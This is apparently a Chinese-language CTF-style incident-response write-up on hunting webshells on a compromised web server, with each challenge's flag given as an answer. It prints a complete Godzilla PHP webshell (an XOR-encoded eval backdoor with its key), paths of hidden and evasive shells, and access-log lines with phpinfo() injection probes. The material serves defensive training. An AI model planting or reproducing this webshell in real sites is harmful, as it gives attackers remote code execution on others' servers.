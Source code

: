 # 第一章 应急响应 - webshell 查杀

## 1

> 黑客 webshell 里面的 flag

将网站源码下载到本地进行分析

![img](img/image_20240429-222939.png)

查看相关文件，发现

```php title="/var/www/html/include/gz.php"
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

```plaintext
flag{027ccd04-5065-48b6-a32d-77c704a5e26d}
```

## 2

> 黑客使用的什么工具的 shell github 地址的 md5

/var/www/html/include/gz.php 文件为哥斯拉的 webshell

```plaintext
https://github.com/BeichenDream/Godzilla --> 39392de3218c333f794befef07ac9257
```

```plaintext
flag{39392de3218c333f794befef07ac9257}
```

## 3

> 黑客隐藏 shell 的完整路径的 md5

```plaintext
/var/www/html/include/Db/.Mysqli.php --> aebac0e58cd6c5fad1695ee4d1ac1919
```

```plaintext
flag{aebac0e58cd6c5fad1695ee4d1ac1919}
```

## 4

> 黑客免杀马完整路径 md5

查看 access.log 即可

```bash
(remote) root@ip-10-0-10-2:/var/www/html/include/Db# cat /var/log/apache2/access.log | awk '{print $7}' | uniq
......
/shell.php
/wap/index.php?1=phpinfo();
/wap/template/images/mobile.css
/wap/template/images/time.gif
/wap/template/images/logo.gif
/wap/index.php?1=phpinfo();
/shell.php
/wap/index.php?1=phpinfo();
/shell.php
/wap/top.php?1=phpinfo();
/shell.php
/wap/top.php?fuc=ERsDHgEUC1hI&func2=ser
/wap/top.php?fuc=ERsDHgEUC1hI&func2=sert
/shell.php
```

```plaintext
/var/www/html/wap/top.php --> eeff2eabfd9b7a6d26fc1a53d3f7d1de
```

```plaintext
flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}
```
